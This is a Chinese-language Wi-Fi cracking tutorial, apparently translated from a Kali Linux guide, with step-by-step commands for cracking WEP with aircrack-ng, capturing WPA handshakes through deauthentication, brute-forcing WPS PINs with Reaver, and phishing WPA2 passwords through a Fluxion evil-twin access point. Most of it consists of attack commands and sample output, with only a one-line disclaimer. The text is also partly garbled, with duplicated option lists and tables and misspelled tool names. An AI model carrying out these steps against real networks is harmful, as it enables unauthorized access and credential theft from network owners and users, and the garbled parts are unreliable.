我们将使用名为 airmon-ng 的工具创建一个虚拟接口。只需输入：airmon-ng start wlan。你的监控接口将在 Kali 下变为 mon，其他情况下为 wlanmon。

3. 开始捕捉
现在我们将使用 airodump-ng 捕捉空气中的数据包。该工具收集空气中的无线数据包。你会看到想要破解的 wifi 名称。对于 Kali 2.0 或滚动版本，将 mon0 替换为 wlanmon：
```
airodump-ng mon0
```

4. 将捕捉的数据存储到文件中
可以通过给 airodump-ng 更多参数来实现。对于 Kali 2.0 或滚动版本，将 mon0 替换为 wlanmon：
```
airodump-ng mon0 --write name_of_file
```
现在捕捉的数据包将存储在 name_of_file.cap 中。你必须等待直到拥有足够的数据（至少10000 个）。注意：不要等太久。只需理解原理（包括后续章节），一旦确定了做什么，就继续。

5. 破解 wifi
如果一切顺利，你将坐在电脑前，最终你获得了 10000 个数据包（先停止捕捉）。现在你可以使用 aircrack-ng 破解密码（在新终端中）：
```aircrack-ng name_of_file-0.cap
```
如果有多个可用，程序会询问要破解哪一个。选择 wifi。它会工作。如果密码足够弱，它就会出现在你面前。如果没有，程序会提示你获取更多数据包。当达到 15000 个数据包时程序会重试，以此此类推。你会获得密钥，格式可能是 xx:xx:xx:xx。移除冒号，xxxxxxxx 就是无线网络的密码。

不起作用吗？
尝试这个：
```
ifconfig wlan0 up
ifconfig wlan0 down
airmon-ng check kill
rfkill unblock all
```
或者：
```
ifconfig wlanmon down
iwconfig wlanmon mode monitor
ifconfig wlanmon up
```
断开网络（wifi）？
对于 Kali 2.0 或滚动版本，将 mon0 替换为 wlanmon。airmon-ng 通常会停止 mon0。这通常足够了。如果 wlan0 未启动（检查 ifconfig 或 iwconfig），则执行（如果你不知道做什么，尽管执行这个）：
```
ifconfig wlan0 up
```
如果 wifi 仍未启动，也尝试这个：
```
service network-manager restart
```

# 附加

## Wifite

- 按信号强度（dB）排序；优先破解最近的访问点。
- 自动取消隐藏网络的客户端认证以显示 SSID。
- 许多过滤器可以指定攻击目标（wep/wpa/wpa、特定信号强度以上、通道等）。
- 可自定义设置（超时、每秒数据包数等）。“匿名”功能；攻击前将 MAC 更改为随机地址，攻击完成后改回。
- 所有捕捉的 WPA 握手备份到 wifite.py 当前目录。
- 智能 WPA 取消认证；在所有客户端和广播取消之间循环。
- 使用 Ctrl+C 停止任何攻击，并提供继续、到下一个目标、跳到破解或退出的选项。
- 退出时显示话总结；显示任何破解的 wep。
- 所有密码保存到 cracked.txt。
- 内置更新器：./wifite.py -upgrade

我觉得这里值得提到，它不仅以简单的方法破解 wifi，还以最好的方式进行破解。例如，当你使用 Wifite 破解 WEP wifi 时，它使用身份验证并使用 ARP 方法加速数据包传输。

## 破解 WEP 网络

wifite -wep
你甚至可能使用命令：
wifite

如果你在此阶段看到任何错误，请参阅页面底部的故障排除提示。-wep 让 wifite 明确你只想破解 WEP wifi。它会为你扫描网络，当你认为扫描得足够时，可以输入 ctrl+c 告诉它停止。然后它会询问要破解哪个 wifi。在我的情况下，我没有指定 -wep，所以它显示范围内的所有 wifi：


破解 WPS 并不快（花费了几个小时），但它很容易，而且不需要你做任何事情，只需等待。

Wifite 让你能够通过命名来使用任何你想用的方法。如你在上面的截图所示，只需输入 `-frag` 即可执行分片攻击。同样，还可以进行许多其他攻击。一个好主是执行以下命令：

# wifite -help

这将告诉你常用的用法命令，这些命令将非常有用。以下是针对不同攻击的 WEP 命令列表：

- -wep only 仅目标 WEP 网络 [off]
- -pps <num> 设置每秒注入的数据包数量 [600]
- -wept <sec> 每次攻击等待等待的秒数，0 表示无限 [600]
- -chopchop 使用 chopchop 攻击 [on]
- -arpreplay 使用 arreplay 攻击 [on]
- -fragment 使用分片攻击 [on]
- -caffelatte 使用 caffe-latte 攻击 [on]
- -p0841 使用 -p0841 攻击 [on]
- -hirte 使用 hirte (cfrag) 攻击 [on]
- -nofakeauth 如果伪身份验证失败则停止攻击 [off]
- -wepca <n> 当 iv 数量超过 n 时开始破解 [10000]
- -wept <sec> 每次攻击等待的秒数，0 表示无限 [600]
- -chopchop 使用 chopchop 攻击 [on]
- -arpreplay 使用 arprep 攻击 [on]
- -fragment 使用分片攻击 [on]
- -caffelatte 使用 caffe-latte 攻击 [on]
- -p0841 使用 -p0841 攻击 [on]
- -hirts 使用 hirts (frag) 攻击 [on]
- -nofakeauth 伪身份验证失败时停止攻击 [off]
- -wepca <> 当 iv 数量超过 n 时开始破解 [10000]
- -wepsave 将 .cap 文件的副本保存到此目录 [off]

-wepsave: 将 .cap 文件的副本保存到此目录 [off]
如你所见，它与帮助截图中的内容是一样的。尝试各种攻击并看看你能做什么。在没有 WPS 的情况下破解 WPA 并不那么简单。出乎意料的是，显示：“正在扫描无线设备。未找到无线接口。你需要插入 wifi 设备或安装驱动程序。正在退出。”

你可能是在虚拟机中运行 Kali。虚拟机不支持内部网卡。要么购买外部无线卡，要么使用 Windows 进行实时启动/侧启动。通常情况下虚拟机以外的任何方式都行。

## Fluxion

Wifite 确实很酷，但对无敌的 WPA-2 网络没多大作用。通过结合恶性孪生（evil-twin）和中间人攻击之类的手段，fluxion 试图欺骗客户端向你提供受 WPA-2 保护的访问点的密钥。

# 5

不使用字典/暴力破解破解 WPA/WPA2：Fluxion

Fluxion 基于另一个名为 *linset.* 的脚本。我曾考虑过在渗透测试期间中使用类似中间人攻击/恶性孪生攻击的方法来获取 WPA 密码，而不是走暴力破解/字典路线。然而，当我看到关于这个酷炫脚本的帖子后，我决定尝试一下。因此，在本章节中，我将向你展示我是如何使用 Fluxion 的，以及你可以如何这样做。

免责声明：仅在你拥有的网络上使用工具。不要做任何违法。

目录

- • 检查工具是否已预装，如果没有，通过 github 获取。
- • 运行脚本，根据需要安装依赖项。
- • 如何使用 Fluxion 的快速概述。
- • 带有文字说明和截图的详细步骤和演示
- • 视频演示（与文字演示不完全，但几乎一样）
- • 故障排除章节



我做的第一件事是确保 Kali 还没有这个工具。如果你是在编写很久之后读到这一章，那么 Kali 可能已经预装了该工具。无论如何，尝试一下这个：

我个人尝试过检查 linset 或 fluxion 是否预装在 Kali 中（尽管我并不指它们在那里）。

# 获取脚本

获取脚本只是克隆 github 仓库的问题。只需使用 git 命令即可。

```
git clone https://github.com/deltaxflux/fluxion
```

如果你在这一步遇到任何问题，可以直接导航到仓库并手动下载内容。

## 运行脚本

只需进入 fluxion 目录，或者如果你是手动下载的进入包含脚本的目录。如果你遵循我使用的终端命令，对你来说只是一个简单的切换目录命令：

```
cd fluxion
现在，运行脚本。
sudo ./fluxion
```

有 4 个依赖项需要安装。

## 依赖项

如果你有未满足的依赖项，请运行安装脚本。
sudo ./Installer.sh

我有 4 个未满足的依赖项，安装脚本的运行对我来说是一次糟糕的体验（尽管可能是因为我完全搞乱了系统，编辑了我不该编辑的文件，现在无法让它们恢复正常）。过程中它卡住了几次，我不得不多次使用 ctrl+c 退出（尽管 ctrl+c 并没有终止整个安装程序，只是那个小的更新窗口）。此外，我还运行了两次安装脚本，这搞乱了一些 aptget 设置。我建议在安装完成后，将你的 /etc/apt/sources.list 恢复到原始状态，并移除前沿仓库（除非你自己在做什么）。

注：对于那些尝试使用 apt-get 安装缺失内容的人来说——某些依赖项在默认 Kali 仓库中可用，所以你必须让脚本来处理。

读取软件包列表... 完成
正在构建依赖树
读取状态信息... 完成
将安装以下额外的软件包：
policy-utils
建议软件包：
isc-utils
将安装以下新软件包：
isc-dhcp-server
升级，0 个移除，5 个已升级。
为了释放 752 KB 的可用空间，在此操作后，将使用 628 MB 的额外空间。
Get: http://repo.kali.org/kali-rolling/amd64 libbios-libiscfgort140 amd64 10.3-2fs100.1
Get: http://repo.kali.org/kali-rolling/amd64 libbios-libiscfgort140 amd64 10.3-2fs100.1
Get: http://repo.kali.org/kali-rolling/amd64 libbios-libiscfgort140 amd64 10.3-2fs100.1
已下载 32.7 MB，34 个文件



## Fluxion

再次，输入以下内容：
/fluxion
这次运行运行良好，你会被问几个简单的问题。

- 对于无线适配器，选择你想要监控的哪一个。对于通道，选择所有，除非你心里有一个特定的拥有 AP 的通道。
- 然后你将看到一个 arodump-ng 窗口（名为 Wifi Monitor）。让它运行直到它搜索 AP 和客户端。当你认为已经有了所需的内容，使用关闭按钮停止监控。
- 你将被提示选择目标。
- 然后你将被提示选择攻击。
- 然后你将被提示提供握手。
 如果 如果还没有捕获到握手，脚本将帮助你捕获。它将发送删除包来实现这一点。
- 之后，我退出了程序（我当时在学校宿舍使用脚本，不想给其他学生带来任何麻烦）。

通过欺骗手机连接到虚假 AP 来获取我的无线网络密码

因此，在这个例子中，我将通过让我的手机连接到 AP，然后在手机上输入密码，然后查看我的 Kali 机器（笔记本电脑）上的 Flux 实例是否获取了密码。此外，对于握手，将对同一台手机取消认证。


####################################
文档
选择语言
1) 德语
2) 英语
3) 罗马尼亚语
4) 土耳其语
5) 西班牙
视频
#> >
垃圾箱
```

选择语言后，会显示此界面。
注意我没有使用任何外部无线网卡，而是使用了笔记本的内置网卡。
然而，某些内置网卡可能会引起，因此最好使用外部网卡（如果你在虚拟机上，则必须使用外部网卡）。

扫描过程开始，使用 `airodump-ng`..

```
####################################
## Cleanup
# FLUXION 0.23 < Fluxion 就是未来 >
# 由 Deltax, Strasharo 和 ApatheticEuphoria 创建
#
####################################
清理2
选择一个接口
1) wlan0 Atheros AR9565 ath9k
#? []
清理 3
```

你可以选择一个目标。我正在针对第 21 号网络，也就是我手机连接的那个：

你选择一种攻击方式。我将选择 Hostapd（第一个）攻击。
如果你已经捕获了 4 路握手，你可以指定该握手的位置，脚本将使用它。否则，它将在下一步中为你捕获一个握手。

```
############################################
## Cleanup
# FLUXION 0.23 < Fluxion Is The Future > #
# 由 Deltax, strasharo 和 ApatheticEuphoria 创建
############################################

清理2
握手检查

1) aircrack-ng (错过几率)
2) pyrit
3) 返回
清理3
#> 1
```

如果你之前没有捕获到握手，就可以选择使用哪种工具来完成。我选择了 `aircrack-ng`。



一旦你捕获了握手（查看顶部的 WPA Handshake: [MAC Address]，如果那里有，说明你已拥有握手），输入 1 并按回车检查握手。如果一切正常，你将进入下一步。



选择你的选项
1) Web 界面
2) 暴力破解
3) 退出

Web界面方法。我没有尝试暴力破解，但我猜那只是大多数工具使用的普通暴力攻击（因此对我们没用，因为这不是我们使用此脚本的目的）。

这种方法提供了多种登录页面，你可以利用它们获取（钓鱼）WPA 网络密码。我选择了第一个选项：

做出决定后，你会看到多个窗口。左两个窗口处理 DHCP 和 DNS 请求，而右两个窗口是状态报告窗口和取消认证窗口（用于将用户从真实的 AP 断开并引导他们进入伪 AP）。

在我的手机上，我看到了两个同名的网络。注意，虽然原始网络受 WPA-2 保护，但我们创建的伪 AP 是开放网络（这是一个巨大的破绽，会阻止大多数人误连它）。无论如何，我连接了伪 AP，DNS 和 DHCP 窗口（左侧）做出了相应的反应：

连接网络后，我收到一个通知，说我登录无线网络。点击它后，我发现了这个页面。对于某些来说，你需要打开浏览器并尝试打开一个网站（例如 facebook.com）才能显示此页面。在我输入密码并点击提交后，脚本会将密码与我们之前捕获的握手进行对比，以验证其是否正确。注意，在这种方法中，握手是奢侈品而非必需品。它是正确与否的问题。如果没有握手，我们就失去了这种能力。


## 如何执行攻击

在历史上的某个时期，执行这种攻击可能非常困难，但现在，它变得轻而易举。如果你具备了所有前提条件，破解网络将简单如：`reaver -i <interface-name>-b <BSSID of target>`

如果你已经熟悉了破解 WEP，那么只需进入 Kali Linux 终端并输入上面的命令（替换掉需要替换的内容）。让你的机器保持原样运行，10 分钟后回来检查一下进度（至少应该是 1% 左右），然后去睡个午觉。不过，如果你是新手，请跟上节奏。

## Kali Linux

首先，你需要在你的机器上安装并运行 Kali linux（或 backtrack）。任何其他 Linux 发行版都可能有效，但你需要自行安装 Reaver。现在如果你还没有安装 Kali Linux，你可能想访问此页面，它将帮助你开始使用 Kali Linux 进行破解。（Reaver 有一个已知问题：有时它在虚拟机上无法工作，你可能需要使用 Kali Linux 的 live CD 或 live USB 进行 live 启动。）

# 信息收集

现在你需要获取关于你的目标网的以下信息：

- 它是否开启了 WPS？如果没有，那么攻击将无效。
- 网络的 BSSID。

现在要检查网络是否开启了 WPS，你可以使用 wash 或者直接使用老牌的 airodump-ng。wash 专门用于检查网络是否开启了 WPS，因此使用起来要简单得多。以下是步骤：

- 将你的无线接口设置为监听模式。
  `airmon-ng start wlan0`
- 使用 wash（但有时即使在网络开启了 wps，它也无法检测到）。如果那里显示了任何网络，说明它开启了 WPS：
  `wash -i mon0`

```
Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
[!] Found packet with bad FCS, skipping...
```

这是一个我还没有破解的错误。如果你看到它，你必须做些功课，或者改用 airodump 方法。更新：`wash -i mon0 --ignore-fcs` 可能会解决这个问题。

- 使用 airodump-ng，它会显示你周围所有的网络。它会告诉你是哪些网络使用了 WPA。你只需假设它们开启了 WPS，然后进入下一步：
  `airdump-ng mon0`

网络的 BSSID：现在无论你使用什么种工具，在得到的结果中都应该有一列 BSSID。复制你想要破解的网络的 BSSID。这就是你需要的全部信息。

所以到此时，你应该有了类似 XX:XX:XX:XX:XX 的内容，这就是你目标网络的 BSSID。保留好这个副本，因为你会需要它。

最后，我们将使用 Reaver 来获取 WPA/WPA2 网络的密码。Reaver 让破解变得非常简单，你只需要输入 `reaver -i mon0 -b XX:XX:XX:XX:XX:XX`

解释 = i（所使用的接口）。记住使用 `airmon-ng start wlan0` 创建了监听接口 mon0。这就是我们正在使用的。-b 指定我们之前找到的网络的 BSSID。

这就是 Reaver 启动所需的全部信息。然而，Reaver 带有许多高级选项，其中一些是我推荐的。最重要的是，你应该使用 -vv 选项，它会增加工具的详细程度。基本上，它会将发生的一切都写到终端上。这可以帮助你看到发生了什么，跟踪进度，并在需要时进行故障排除。所以最终的命令应该是：

```
reaver -i mon0 -b XX:XX:XX:XX:XX -vv
```

几小时后，你将看到类似的内容。在这种情况下，PIN 码被故意设置为 12345670，因此在 3 秒内就被破解了。

WPA PSK : X

这是一个额外的章节，可能证明很有用。

# WPA PSK : X

X 是无线网络的密码。
这是一个额外的章节，可能证明很有用。遇到的已知问题……故障排除：

1. 如上面的截图所示，你看到第一行显示“Switching wlan0 to channel 6”（你的应该是 mon0 而不是 wlan0）。有时它会一直切换接口。
2. 有时它永远获取不到信标帧（beacon frame），并卡在等待信标阶段。
3. 有时它永远无法与目标 AP 关联。
4. 有时响应太慢，或者根本不来，并显示 (0x02) 或类似的错误。

在大多数情况下，此类错误表明：
1. 无线卡有问题。
2. AP 非常挑剔，不让你关联。
3. AP 没有使用 WPS。
4. 路由器中实施了速率限制（大多数新路由器都有此功能）。

可能的解决方法：
1. 有时，杀死顽固的进程会有帮助（见下图）。
2. 靠近目标 AP。


1 AP 向 STA 发送一个随机值（ANonce）。现在客户端已拥有了构建 PTK 的所有属性。

2 STA 向 AP 发送自己的随机值（SNonce）以及一个包含身份验证的 MIC，其中该 MIC 实际上是消息身份验证和完整性代码（MAIC）。

3 AP 发送 GTK 和一个序列号以及另一个 MIC。该序列号将用于下一个多播或广播帧，以便接收端 STA 能够执行基础的重放检测。

4 STA 向 AP 发送确认信息。

上述所有消息都以 EAPOL-Key 帧的形式发送。
一旦获得 PTK，它将拆分为五个独立的密钥：

- 1 16 字节的 EAPOL-Key 确认密钥 (CKK) – 用于计算 WPA EAPOL Key 消息上的 MIC。
- 2 16 字节的 EAPOL-Key 加密密钥 (KEK) - AP 使用此密钥加密发送到客户端的额外数据（在‘Key Data’ 字段中，例如 RSN IE 或 GTK）。
- 3 16 字节的临时密钥 (TK) – 用于加密/解密 AP 发的单播数据包。
- 4 8 字节的 Michael MIC 认证器 Tx 密钥 – 用于计算 AP 发的单播数据包上的 MIC。

握手中提供的 Michael MIC 认证器 Tx/Rx 密钥仅在网络使用 TKIP 加密数据时使用。
顺便说一下，如果你没太懂其中的内容，不要担心。人们不在维基百科上搜索攻击教程是有原因的（有一半的内容都让人听不懂）。

# 捕获握手

现在有几种（这里只列出了 2 种）捕获握手的方法。我们将逐一查看：
- Wifiite（简单且自动）
- Airodump-ng（简单但非自动，你必须手动执行 wifite 自动完成的操作）

## 方法论

我们先从简单的开始。现在你需要意识到，若要捕获握手，必须有正在进行的握手发生。现在有 2 种选择：你可以坐在那里等新客户端出现并连接到网络，或者你可以强制已连接的客户端断开连接，当它们重新连接时，你捕获它们的握手。你的网卡擅长接收数据包，但不擅长创建数据包。如果你的客户端离你很远，你的删除请求（即：请离开此连接请求）将无法到达它们，你将一直奇怪为什么获取不到任何握手（在 ARP 注入和其他类型的攻击中也会遇到类似的问题）。所以，想法是尽可能靠近接入点（路由器）。wifite 和 airdump-ng 方法的方法相同，但 wifite 会为你处理所有这些琐事，而在 airdump-ng 中，你需要召唤兄弟（aireplay-ng）来救援。理论讲解完毕。

# 使用 Wifite 获取握手

现在我的配置非常简单。我的手机连接到一个名为 'me' 的受 wpa-2 保护的无线网络。目前没有人连接到该网络。让我们看看 wifite 能做什么。

```
root@kali:~# wifite
WiFi v2 (r85)
() : 为 Linux 设计的自动化无线审计工具
+] 正在扫描无线设备...
+] 启用 wlan0 的监听模式... 完成
+] 正在扫描 (mon0)，每 5 秒更新一次，准备好后按 CTRL+C。
[0:00:04] 正在扫描无线网络。找到 0 个目标和 0 个客户端
+] 正在扫描 (mon0)，每 5 秒更新一次，准备好后按 CTRL+C。
NUM ESSID CH ENCR POWER WPS? CLIENT
1 me 1 WPA2 57db wps
2 ******** 11 WEP 21db no client
3 ************ 11 WEP 21db no
```

现在如你所见，我的网络显示为 'me'。我按了 ctrl+c，wifite 询问我想要攻击哪个目标（该网络开启了 WPS。这是一个额外的红利，reaver 可以帮你免除所有麻烦。此外，wifite 也会使用 reaver 来跳过整个 WPA 破解过程，转而利用 WPS 漏洞）。我们已经有一篇关于使用 Reaver 破解 WPA WPS 的教程了，现在我们将忽略这个网络有 WPS 的事实，转而捕获握手。

现在我选择了第一个目标。我尝试了 PIN 猜测攻击。它的成功率几乎是 100%，我等了 2-3 小时。但我按了 ctrl+c。那里没有客户端，所以无法捕获握手。以下是发生的情况：

```
+] 选择目标数字 (1-3)，用逗号分隔，或输入 'all':
+] 已选择 1 个目标。
[0:00:00] 对 me 启动 WPS 攻击 (02:73:8D:37:A7:ED)
^C00:00:24] WPS 攻击，0/0 成功/ttl
(^C) WPS 暴力攻击被中断
[0:08:20] 在 "me" 上启动 wpa 握手捕获
[0:08:05] 正在等待握手...
(^C) WPS 握手中断
[+] 完成 2 次攻击：
[+] 0/2 WPA 攻击成功
+] 禁用 mon0 模式... 完成
```

现在我将 PC 连接到 'me'。让我们重试一次。这次会出现一个客户端，wifite 会进行去身份认证，当它们重连时，我们将捕获握手。

| ESSID CH ENCR POWER WPS? CLIENT |
|---|---|---|---|---|---|
| me 1 WPA2 57db wps | |
| ******** 11 WEP 21db no client | |
| ************ 11 WEP 21db no | |

现在我将 PC 连接到 'me'。让我们再次尝试。这次会出现一个客户端，wifite 会进行去身份认证，当它们重连时，我们将捕获握手。

| ESSID CH ENCR POWER WPS? CLIENT |
|---|---|---|---|---|---|
| me 1 WPA2 57db wps | |
| ******** 11 WEP 21db no client | |
| ************ 11 WEP 21db no | |

*(注：由于原文文本在某些部分存在重复或格式混乱，译文已根据原文逻辑进行了对齐)*


如你所见，我花了 57 秒捕获了握手（发送了 5 个身份验证请求，默认每 10 秒发送一个）。“无字典”的错误不应该困扰你。我们将仅使用 Wifite 来捕获握手。现在，捕获到的握手已保存为 .cap 文件，可以使用 aircrack、`pyrit`、`hashcat`（在转换 .hccap 后）等工具，通过字典列表或暴力破解进行破解。让我们看看如何使用 `airodump-ng` 执行同样的操作。这次我不会向你展示你可能会遇到的问题。这将是一次完美的体验，所有问题在 wifite 案例中已经出现过了。

## 使用 Airodump-ng 捕获握手

- 1. 查找你的无线适配器的名称：

好了，现在你的电脑有许多网络适配器，所以为了扫描其中一个，你需要知道它的名称。因此，你基本上需要了解以下内容：

wlan 接口未显示的问题。这是因为虚拟机无法使用内部无线网卡，你必须使用外部网卡。你应该尝试使用 Live USB 启动 Kali（只需查看本教程的第一部分），或者购买一个外部网卡。

- 2. 开启监听模式

现在，我们使用名为 `airmon-ng` 的工具创建一个名为 `mon` 的虚拟接口。只需输入 `airmon-ng start wlan0`
你的 `mon0` 接口将被创建。

- 3. 开始捕获数据包
现在，我们将使用 `airodump-ng` 捕获空气中的数据包。该工具从空气中的无线包中收集数据。你会看到你想破解的 wifi 名称。
`airodump-ng mon0`

```
root@Office: ~ 
CH 3 [Elapsed: 16 s 2013-08-29 14:31]
BSSID Pw Beacons Data, #/s CH MB ENC CIPHER AUTH ESSID
94:44:52:54:9d:04  -76 5 0 0 54 WPA2 COMP PSK bssid.3d04
00:19:78:51:c5:4e  -65 5 2 0 11 -0 128M
BSSID STATION Pw Ratio Lost Probe
00:14:78:51:c5:4e 00:18:(c2):(c3:3a:91)  -1 11 -0 0 1

KALI LINUX
这个世界属于那些能够听见的人
```

- 14. 将捕获的数据包存储在文件中

这通过给 `airodump` 命令提供更多参数来实现的
`airodump-ng mon0 --write name_of_file`

这可以是：

```
root@office:~# airdump-ng mon0 -write name_of_fil

KALI LINUX
the world is yours if you can hack it

root@office
```

## 非新手教程：

root@kali:~# airdump-ng start wlan1
root@kali:~# airdump-ng mon0 -w anynamehere
现在，复制你目标网络的 bssid（从 airdump-ng 屏幕上）并使用 `airplay-ng` 启动身份验证攻击：
root@kali:~# airplay-ng -deauth 0 -a BSSID here mon0

`--` 告诉 airy 启动身份验证攻击。0 告诉它以 0 秒的间隔发射（非常快，所以只需运行几秒钟并按 ctrl+ 即可）。-a 需要 BSSID，请将 BSSID 替换为你的目标 BSSID。mon0 是你创建的接口。

如果你遇到监听模式在不同通道之间跳的问题，或者信标帧出现的问题，可以使用以下命令将 mon0 固定在通道上：
root@kali:~# airdump-ng mon0 -w anynamehere -c 1

将 1 替换为你 AP 所在的信道。如果 airplay 有要求，你可能还需要添加 `--ignorenegative-one`。在我的情况下，airodump-ng 显示固定信道 mon0: -1，所以这个是必须的。（这是 aircrack-suite 的 bug）。

现在，当你查看 airdump-ng 屏幕时，你会发现右上角显示 WPA handshake captured（已捕获 WPA 握手）。它看起来像这样
CH 1 [[ Elapsed: 24 s ]] [ 2014-06-13 22:41 ]] [ WPA handshake: **

| BSSID | PWR RXQ Beacons #Data, #s CH MB ENC CIPHER AUTH BSSID |
|---|---|---|---|---|---|---|---|---|
| 02:73:8D:37:A7:ED | -47 75 | 201 | 35 0 1 54 | WPA2 CCMP PSK me | | | | |
| BSSID STATION Pw Ratio Lost Probe |


现在我们已经运行了几次 `airodump-ng`。然而，这一次我们将传递 `-w` 参数，这会指示 `airodump-ng` 将输出保存到文件中：
`airodump-ng -c [channel] --bssid [bssid] [file_name] [interface]`
`airodump-ng -c 2 --bssid 00:17:7C:22:CB:80 -w dump mon0`
输出将保存在一个名为 `dump_01.cap` 的文件中

现在我们可以保持此终端运行，它将持续保存数据包。[在之前的教程中，我们只做了两件事：捕获数据包（即这一步）和破解数据包（即我们最后要执行的步骤）。虽然只遵循这两个步骤让我们的工作变得更简单，但也让整个过程耗费更多得多，因为我们只是一个被动的数据包监听器，什么都没做。]

## # 加速进程

### 伪造认证 (Fake Authentication)

现在为了加快速度，我们将注入网络。由此我们将获得 ARP 数据包。这些数据包将填充我们的 `airodump-ng` 捕获中的数据列，而数据正是帮助我们获取密码的关键。一旦我们拥有 10000 个数据包，就可以开始使用 `aircrack-ng` 尝试获取密码。

现在为了让 AP 注意到注入的数据包，你要么是一个已连接的客户端，要么伪装成一个。你可以将你的 MAC 地址修改为已连接客户端之一，或者使用伪造认证功能。我们将使用后者。（如果你看到类似 AP 在 x 通道而 mon0 在 y 通道的错误，请查看本章节底部的故障排除）：

```
aireplay-ng -1 0 -e DIGIS -a 00:17:7C:22:CB:80 mon0
```

## # ARP 请求模式 (ARP request mode)

ARP 数据包是获取大量 IV 或数据的最佳途径。没有 IV 就无法破解网络。输入以下代码让 `aireplay-ng` 监听 AP 的 ARP 数据包，一旦发现一个立即注入。这将非常快地产生大量数据。这是真正的加速步骤。

```
aireplay-ng -3 -b [BSSID] mon0
```
最终代码看起来像这样：
aireplay-ng -3 -b 00:17:7C:22:CB:80 mon0
```

现在你必须等待一段时间以获取 ARP 请求。一旦获取到，终端就会会“爆炸”。数据包将开始飞速填充。现在，网络中存在一个活跃的用户是绝对必要的。

一段时间后，我有了足够破解任何网络的数据包

## # **破解网络**

破解网络就像在控制台输入以下命令一样：`aircrack-ng filename-01.cap`

在我们案例中，命令将是：

## aircrack-ng dump-01.cap

```
root@office:~# aircrack-ng dump-01.cap
```

按下回车后，你将看到网络列表，并会提示你选择其中一个进行破解。在我的案例中只有一个网络，所以我无法获取那个界面或截图。密码在不到一秒的时间就被破解了。



最后你终于获得了想要破解的网络的密码。

